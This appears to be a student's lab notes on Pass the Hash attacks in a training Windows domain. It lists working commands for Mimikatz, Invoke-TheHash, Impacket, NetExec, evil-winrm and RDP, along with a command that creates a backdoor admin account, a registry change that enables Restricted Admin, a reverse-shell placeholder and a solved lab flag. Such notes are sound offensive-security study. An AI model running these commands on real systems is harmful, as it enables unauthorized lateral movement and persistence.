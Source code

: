 Let's assume we obtain the password hash (`64F12CDDAA88057E06A81B54E73B949B`) for the account `julio` from the domain `inlanefreight.htb`. Let's see how we can perform Pass the Hash attacks from Windows and Linux machines.

# NTLM

## Pass the Hash with Mimikatz (Windows)

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.

```sh
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

![[Pasted image 20250717084003.png]]

## Pass the Hash with PowerShell Invoke-TheHash (Windows)

This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution.

#### Invoke-TheHash with SMB

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```


> [!NOTE] 
> we can also use a Powershell reverse shell

#### Invoke-TheHash with WMI

```powershell-session
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<ANY PS REVERSE PAYLOAD"

[+] Command executed with process id 520 on DC01
```


## Pass the Hash with Impacket (Linux)

#### Pass the Hash with Impacket PsExec

```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

More tools ; 
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Pass the Hash with NetExec (Linux)

#### Pass the Hash with NetExec

```shell
 netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

if we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer.

#### NetExec - Command Execution

```shell 
 netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## Pass the Hash with evil-winrm (Linux)
If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

#### Pass the Hash with evil-winrm

```shell
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

## Pass the Hash with RDP (Linux)

There are a few caveats to this attack:
1. - `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[Pasted image 20250717085600.png]]
2. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Pass the Hash using RDP

```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

## UAC limits Pass the Hash for local accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

> **Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.


These settings are only for local administrative accounts. If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.

# Lab
in the last question of the lab i have to first enable the rdp pth login. 

Q: Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.

```cmd
C:\Windows\system32>dir \\dc01\juulio
The network name cannot be found.

C:\Windows\system32>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,253,078,528 bytes free

C:\Windows\system32>type \\dc01\julio
Access is denied.

C:\Windows\system32>type \\dc01\julio\julio.txt
JuL1()_SH@re_fl@g
```

